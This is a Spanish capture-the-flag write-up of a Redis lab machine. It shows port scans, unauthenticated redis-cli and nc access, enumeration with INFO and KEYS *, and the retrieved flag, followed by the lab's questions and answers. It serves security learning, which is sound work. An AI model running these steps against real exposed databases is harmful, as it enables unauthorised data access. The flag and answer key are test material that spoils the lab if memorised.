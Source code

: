 # Reedemer WriteUp
[[Redis]] 
[[Anonymous]]
[[Bases de Datos]]

```java
IP atacante: 10.10.16.133
IP victima:  10.129.195.219
```

`$nmap -p- -Pn -n --min-rate 5000 10.129.195.219`
```java
PORT     STATE SERVICE
6379/tcp open  redis
```

`$sudo nmap -p6379 -sSCV 10.129.195.219`
```java
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```

>Redis (**RE**mote **DI**ctionary **OS**Server) es un almacén de clave/valor NoSQL de código abierto, en memoria, que se utiliza principalmente como caché de aplicaciones o base de datos de respuesta rápida.[¹](https://www.ibm.com/mx-es/topics/redis)

>La arquitectura de Redis es tipo cliente-servidor, pueden estar en el mismo nodo o estar distribuidos.  
>El servidor se encarga de almacenar datos en memoria.
>El cliente puede tratarse de la **Redis CLI**: su herramienta de consola, o bien una API. 
>La replicación (duplicación de datos) en Redis es de tipo **maestro-esclavo**.
>Cada servidor puede tener varias réplicas, que además de lecturas, también pueden configurarse para aceptar escrituras.[²](https://aprenderbigdata.com/redis/)

Vemos algo importante, habla de **redis-cli**, indagando en hacktricks podemos ver esto:

>Redis es un protocolo basado en texto. Envía el comando en un socket y los valores devueltos serán legibles. Puede ejecutarse con SSL/TLS (aunque esto es bastante inusual). En una instancia normal de Redis, puedes conectarte usando nc o también puedes usar redis-cli:
>>`nc -vn 10.10.10.10 6379`
>>`redis-cli -h 10.10.10.10 # sudo apt-get install redis-tools`

Comenzamos a probar lentamente y después jugamos con la herramienta.
Pero hablando del `cli`, muy fácilmente logramos hacer una key de prueba:
```java
10.129.195.219:6379> SET my_key Tumama
OK
10.129.195.219:6379> get my_key
"Tumama"
10.129.195.219:6379> 
```

Tomando en cuenta la opción mediante `nc` (Banner Grab), también podemos enumerar información.
`$nc -vn 10.129.195.219 6379`
```java
(UNKNOWN) [10.129.195.219] 6379 (redis) open
INFO
$3295
# Server
redis_version:5.0.7
...
```

Listaremos las bases de datos y número de claves con `INFO keyspace`, donde la cantidad incluye la key que creamos, no parece de mucha utilidad, tal vez para después.
```java
INFO keyspace
$44
# Keyspace
db0:keys=5,expires=0,avg_ttl=0
```

Uno de los comandos para explotar información es `KEYS *`. Y obtenemos información interesante:
```java
KEYS *
*5
$4
temp
$4
flag
$6
my_key
$4
stor
$4
numb
```

Podemos notar que está nuestra llave de prueba y la podemos leer. Lo mismo con la flag.
```java
get  my_key
$6
Tumama
get flag
$32
t3L4c0M15t3eNT3r4953eb03e1d2b376
```

Preguntas

1. ¿Qué puerto TCP está abierto en la máquina?
	6379
2. ¿Qué servicio se ejecuta en el puerto abierto de la máquina?
	redis
3. ¿Qué tipo de base de datos es Redis? Elija entre las siguientes opciones: (i) Base de datos en memoria, (ii) Base de datos tradicional.
	i
4. ¿Qué utilidad de línea de comandos se utiliza para interactuar con el servidor Redis? Introduzca el nombre del programa que introduciría en la terminal sin argumentos.
	redis-cli
5. ¿Qué flag se utiliza con la utilidad de línea de comandos de Redis para especificar el nombre de host?
	-h
6. Una vez conectado a un servidor Redis, ¿qué comando se utiliza para obtener la información y las estadísticas sobre el servidor Redis?
	info
7. ¿Cuál es la versión del servidor Redis que se utiliza en la máquina de destino?
	5.0.7
8. ¿Qué comando se utiliza para seleccionar la base de datos deseada en Redis?
	select
9. ¿Cuántas claves hay dentro de la base de datos con índice 0?
	En la salida obtuvimos 5 por la modificación, la respuesta esperada es 4.
10. ¿Qué comando se utiliza para obtener todas las claves de una base de datos?
	keys *
